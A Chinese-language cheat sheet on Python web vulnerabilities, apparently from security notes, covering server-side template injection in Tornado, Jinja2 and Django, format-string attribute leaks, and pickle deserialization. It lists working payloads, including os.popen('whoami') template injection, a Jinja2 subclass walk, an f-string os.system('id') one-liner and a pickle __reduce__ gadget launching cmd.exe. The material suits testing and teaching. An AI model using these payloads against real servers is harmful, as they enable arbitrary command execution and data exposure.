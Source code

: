 Python漏洞
================================

模版注入
--------------------------------

模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法：

- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试例子

- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[2].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标：

- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权


格式化字符串
--------------------------------


``"welcome {user}".format(user=user)``
``user = {0.__class__.__init__.__globals__}``

python3 -c "f'''{__import__('os').system('id')}'''"

反序列化
--------------------------------

pickle
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    >>> class A(object):
    ...     a = 1
    ...     b = 2
    ...     def __reduce__(self):
    ...         return (subprocess.Popen, (('cmd.exe',),))
    ...
    >>> cPickle.dumps(A())
    "csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

PyYAML反序列化
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


参考链接
--------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `Python pickle反序列化 <http://www.91ri.org/9576.html>`_